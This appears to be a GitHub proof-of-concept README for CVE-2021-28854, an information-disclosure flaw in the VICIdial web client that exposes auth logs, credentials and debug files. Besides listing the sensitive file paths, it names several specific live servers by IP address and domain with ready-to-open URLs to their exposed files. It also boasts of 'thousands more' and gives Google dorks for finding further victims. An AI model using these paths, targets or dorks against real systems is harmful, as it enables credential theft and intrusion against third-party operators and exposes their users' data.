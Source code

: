 # VICIdial - CVE-2021-28854
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems. This vulnerability affects all versions as of 20/5/21

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

/vicidial/project_auth_entries.txt

/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT

/vicidial/agent_reports/

/vicidial/closer_SQL_updates.txt

/agc/vicidial_mysqli_errors.txt

/agc/vicidial_debug.txt

/agc/vicidial_auth_entries.txt

## Example URL's:

http://172.104.24.101/vicidial/project_auth_entries.txt

http://172.104.24.101/vicidial/agent_reports/

http://172.104.24.101/agc/vicidial_mysqli_errors.txt

http://172.104.24.101/agc/vicidial_debug.txt

http://172.104.24.101/agc/vicidial_auth_entries.txt


------------------------------------------------------


http://35.156.102.118/vicidial/project_auth_entries.txt

http://35.156.102.118/vicidial/agent_reports/

http://35.156.102.118/vicidial/closer_SQL_updates.txt

http://35.156.102.118/agc/vicidial_mysqli_errors.txt

http://35.156.102.118/agc/vicidial_debug.txt

http://35.156.102.118/agc/vicidial_auth_entries.txt


------------------------------------------------------


https://callsrevenue.com/vicidial/project_auth_entries.txt

https://callsrevenue.com/agc/vicidial_mysqli_errors.txt

https://callsrevenue.com/agc/vicidial_debug.txt

https://callsrevenue.com/agc/vicidial_auth_entries.txt


------------------------------------------------------


http://69.60.110.115/vicidial/agent_reports/

http://69.60.110.115/vicidial/closer_SQL_updates.txt

http://69.60.110.115/agc/vicidial_mysqli_errors.txt

http://69.60.110.115/agc/vicidial_debug.txt

+ Thousands More! :)

## Google Dorks to help find more!

"Agent web client:  Phone Login"

"Index of /vicidial"

inurl:/vicidial/welcome.php

intitle:Agent Timeclock

"Agent web client: Campaign Login"


